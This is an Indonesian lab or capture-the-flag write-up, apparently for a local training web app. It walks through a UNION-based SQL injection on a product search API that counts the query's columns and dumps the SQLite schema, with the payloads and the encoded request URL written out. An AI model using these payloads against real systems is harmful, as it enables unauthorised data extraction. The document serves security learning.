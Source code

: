 ## Tantangan: Database Schema

Tantangan ini mengharuskan saya untuk mengambil seluruh definisi skema database melalui eksploitasi SQL Injection. Serangan ini berbeda dari yang sebelumnya karena tujuannya bukan untuk login, melainkan untuk mengambil data internal yang sensitif.

### 1. Menemukan Kerentanan

Kerentanan utama berada pada API pencarian produk. Query di backend tidak memvalidasi input dengan benar, sehingga saya bisa menyuntikkan perintah SQL tambahan.

### 2. Menentukan Jumlah Kolom
Saya perlu mengeteahui berapa banyak kolom yang dihasilkan query dari produk asli
saya menggunakan payload `UNION SELECT`

*   **Tujuan:** Mencoba berbagai jumlah kolom hingga server tidak mengembalikan kesalahan (error).
*   **Payload :**
  
    ```
    q=test')) UNION SELECT 1,2,3,4,5,6,7,8,9-- (Berhasil)
    ```
*   **Hasil:** Saya menemukan bahwa query asli mengembalikan 9 kolom.

### 3. Mengambil Skema Database

Setelah mengetahui jumlah kolom, saya bisa menyusun payload untuk mengambil skema database. Di database SQLite yang digunakan oleh aplikasi, informasi skema disimpan di tabel bernama `sqlite_master` atau `sqlite_schema`. Saya akan mengganti salah satu kolom dengan kolom yang berisi informasi skema.

*   **Tujuan:** Mengambil data dari tabel `sqlite_schema`, khususnya kolom `sql` yang berisi definisi skema (`CREATE TABLE...`).
*   **Payload yang Digunakan:**
    ```sql
    test')) UNION SELECT 1,2,3,4,5,6,7,8,sql FROM sqlite_schema--
    ```
*   **Penjelasan Payload:**
    *   **`test'))`**: Digunakan untuk menutup query pencarian asli.
    *   **`UNION SELECT 1,2,...,sql`**: Menggabungkan query saya dengan query asli. Saya menggunakan `sql` di posisi ke-9 untuk menampilkan definisi skema.
    *   **`FROM sqlite_schema`**: Menunjukkan dari mana data akan diambil.
    *   **`--`**: Menandai sisa query asli sebagai komentar.
*   **Eksekusi:** Saya mengakses URL dengan payload yang sudah di-encode:
    ```
    http://127.0.0.1:3000/rest/products/search?q=test'))%20UNION%20SELECT%201,2,3,4,5,6,7,8,sql%20FROM%20sqlite_schema--
    ```

### Bukti
<img width="1920" height="1080" alt="Screenshot (586)" src="https://github.com/user-attachments/assets/30be8693-d324-427e-81cf-ae5edf3cec04" />

<img width="1920" height="1080" alt="Screenshot (587)" src="https://github.com/user-attachments/assets/bb7d24f2-ceff-4ad0-8236-0803ec92f329" />

